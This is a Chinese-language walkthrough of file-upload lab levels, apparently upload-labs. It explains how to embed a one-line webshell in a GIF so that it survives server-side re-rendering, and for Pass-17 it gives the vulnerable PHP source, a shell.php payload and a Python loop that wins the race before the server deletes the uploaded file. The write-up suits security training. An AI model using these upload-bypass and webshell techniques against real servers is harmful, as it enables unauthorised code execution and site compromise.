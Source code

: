 imagecreatefrom 系列函数用于从文件或 URL 载入一幅图像，成功返回图像资源，失败则返回一个空字符串

imagexxx — 以 xxx 格式将图像输出到浏览器或文件

这里使用容易绕过二次渲染的gif文件。现在制作一个gif图片马，copy就可以了。也可以winhex制作。制作后便上传，发现无法利用。然后将上传的图片重新下载下来，放入winhex，进行对比。可以找到二次渲染后不变的地方，而这个地方就是可以插入一句话的地方。上传修改好的图片马。

![](https://img2020.cnblogs.com/blog/1884723/202004/1884723-20200416151903312-918773678.png)

## Pass-17 条件竞争

源码

    $is_upload = false;
    $msg = null;

    if(isset($_POST['submit'])){
        $ext_arr = array('jpg','png','gif');
        $file_name = $_FILES['upload_file']['name'];
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $file_ext = substr($file_name,strrpos($file_name,".")+1);
        $upload_file = UPLOAD_PATH . '/' . $file_name;

        if(move_uploaded_file($temp_file, $upload_file)){
            if(in_array($file_ext,$ext_arr)){
                $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
                rename($upload_file, $img_path);
                $is_upload = true;
            }else{
                $msg = "只允许上传.jpg|.png|.gif类型文件！";
                unlink($upload_file);
            }
        }else{
            $msg = '上传出错！';
        }
    }


这里是条件竞争，先将文件上传到服务器，然后判断文件后缀是否在白名单里，如果在则通过rename重命名，否则通过unlink删除

因此我们可以上传shell.php只需要在它删除之前访问即可，可以利用burp的intruder模块（重放攻击）不断上传，然后我们不断的访问刷新该地址即可。

先创建一个shell.php，内容为

    <?php
        fputs(fopen('phpinfo.php','w'),'<?php phpinfo(); ?>');
    ?>

再使用python不断请求

    import requests
    url = "http://127.0.0.1/upload/shell.php"
    while True:
        html = requests.get(url)
        if html.status_code == 200:
            print("OK")
            break
        else:
            print("NO")

